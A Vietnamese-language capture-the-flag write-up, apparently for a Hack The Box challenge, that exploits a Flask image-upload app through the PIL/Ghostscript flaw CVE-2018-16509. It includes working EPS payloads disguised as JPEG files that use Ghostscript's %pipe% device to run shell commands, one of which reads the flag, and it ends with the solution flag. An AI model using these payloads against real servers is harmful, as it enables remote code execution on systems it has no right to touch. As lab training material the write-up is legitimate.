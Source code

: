 Nhìn qua thì thấy web chỉ có chức năng là upload file.

Web chỉ cho upload file ảnh (png, jpg, jpeg) nên việc upload file với định dạng khác là không khả thi.
```python
ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

generate = lambda x: os.urandom(x).hex()

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```
Ảnh sau khi upload được xử lý bằng hàm `petpet`. Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. Cuối cùng là xóa ảnh trong tmp.
```python
try:

    tmp_path = save_tmp(file)

    bee = Image.open(tmp_path).convert('RGBA')
    frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
    finalpet = petmotion(bee, frames)

    filename = f'{generate(14)}.gif'
    finalpet[0].save(
        f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
        save_all=True, 
        duration=30, 
        loop=0, 
        append_images=finalpet[1:], 
    )

    os.unlink(tmp_path)

    return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200
```
Ứng dụng sử dụng thư viện `PIL` để xử lý ảnh, thử research xem `PIL` có CVE nào không. Sau một vòng loanh quanh thì thấy có CVE liên quan đến PIL và Ghostscript để RCE, check lại thì bên trong Dockerfile có tồn tại ghostscript thật.
```sh
# Install Pillow component
RUN curl -L -O https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs923/ghostscript-9.23-linux-x86_64.tgz \
    && tar -xzf ghostscript-9.23-linux-x86_64.tgz \
    && mv ghostscript-9.23-linux-x86_64/gs-923-linux-x86_64 /usr/local/bin/gs && rm -rf /tmp/ghost*
```

POC ở đây: https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

Tạo file `rce.txt` với nội dung sau, đổi tên thành `rce.jpg` và upload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%echo 'test' > application/static/petpets/a.txt) currentdevice putdeviceprops
```

Upload thành công, truy cập vào đường dẫn `static/petpets/a.txt` ta đọc được nội dung file là test.

Giờ sửa lại payload một chút để đọc flag:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/a.txt) currentdevice putdeviceprops
```

Upload file, truy cập vào đường dẫn `static/petpets/a.txt` và lấy flag:
```
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}
```